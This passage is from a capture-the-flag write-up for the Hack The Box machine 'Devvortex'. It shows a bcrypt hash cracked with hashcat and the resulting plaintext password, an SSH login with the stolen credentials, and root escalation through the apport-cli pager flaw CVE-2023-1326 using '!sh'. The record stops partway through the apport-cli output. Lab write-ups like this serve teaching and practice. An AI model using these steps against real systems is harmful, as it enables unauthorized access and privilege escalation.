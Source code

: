 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Cracked the password using hashcat

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~/htb/devvortex/files]
└─$ hashcat hash.txt /usr/share/wordlists/rockyou.txt -m 3200                    

$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Now i can connect to the server using logan's credentials

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~]
└─$ ssh logan@devvortex.htb                

logan@devvortex:~$ ls
user.txt
logan@devvortex:~$ cat user.txt
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


<br>

## Getting Root

### Information Gathering


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
logan@devvortex:~$ sudo -l
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
    
logan@devvortex:~$ apport-cli -v
2.20.11
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Did some searching and found a vulnerability in this version that allows us to escalate privilege using the pager (CVE-2023-1326)

<br>

### Privilege Escalation

Open the pager by viewing the report with **V** option and enter `!sh` to escalate privilege

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
logan@devvortex:~$ sudo apport-cli python3

*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.
..................

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~